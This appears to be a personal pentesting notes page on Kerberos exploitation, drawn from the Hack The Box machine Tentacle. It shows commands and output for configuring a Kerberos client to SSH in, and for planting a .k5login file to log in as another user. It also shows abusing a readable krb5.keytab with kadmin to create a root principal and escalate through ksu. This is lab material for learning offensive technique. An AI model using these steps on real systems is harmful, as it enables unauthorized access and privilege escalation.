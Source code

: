 ```yaml
---
description: >-
  Kerberos Exploitation
title: Kerberos Exploitation              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Kerberos Exploitation]                     # Change Templates to Writeup
tags: [exploitation, kerberos, gssapi, k5login, krb5.conf, krb5.keytab]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Authentication method gssapi-with-mic (krb5.conf file)
If we receive the following message while trying to authenticate with any service:
```bash
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
```
This means that kerberos is running for the authentication of such services, to abuse of such configuration we need to install krb5-conf, it will create an environment on our machine that will allow kali to run as a kerberos client:
```bash
apt-get install krb5-user
```
Once that we receive a prompt asking for a domain we enter the realcorp.htb domain:
![[Pasted image 20230123134328.png]]
Then add the machine's IP twice:
![[Pasted image 20230123134422.png]]
The installation creates a fille called /etc/krb5.conf which we'll modify as follows:
```bash
[libdefaults]
 default_realm = REALCORP.HTB
[realms]
 REALCORP.HTB = {
 kdc = srv01.realcorp.htb:88
 }
[domain_realm]
 .realcorp.htb = REALCORP.HTB
 realcorp.htb = REALCORP.HTB
```
Then in order to connect to the SSH port we can use the following command which will ask for the password:
```bash
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
```
After submit the password we'll find that there is a register with this same password created:
```bash
klist             
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
01/23/2023 15:10:38  01/24/2023 15:10:38  krbtgt/REALCORP.HTB@REALCORP.HTB
```
This should allow us to login without password via ssh:
```bash
ssh j.nakazawa@10.10.10.224                                            
j.nakazawa@10.10.10.224's password:
```
If still not possible to login via SSH then we need to sync the DC time with our machine:
```bash
ntpdate 10.10.10.224
2023-01-23 15:13:01.504643 (-0500) +1.004272 +/- 0.038425 10.10.10.224 s10 no-leap
CLOCK: time stepped by 1.004272
```
Then we'll be able to login:
```bash
ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Mon Jan 23 20:05:55 GMT 2023 from 10.10.14.2 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ whoami
j.nakazawa
```
Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:gssapi-with-mic)

### .k5login file
If we can create a .k5login file inside the /home of a user we can login with it always that we already have a Principal created with the krb-user tool, all we need to do is execute the following command:
```bash
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```
Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:k5login)

### Abusing krb5.keytab
If we get a krb5.keytab file we can abuse of it to list, create and login with principals:
```bash
klist -k /etc/krb5.keytab # list all the Principals
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB # Interactive shell as Principal kadmin/admin this needs to be a Principal from klist
kadmin: addprinc root@REALCORP.HTB # Create a Principal (password required)
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created. 
ksu
WARNING: Your password may be exposed if you enter it here and are logged in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
```
Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:krb5-keytab)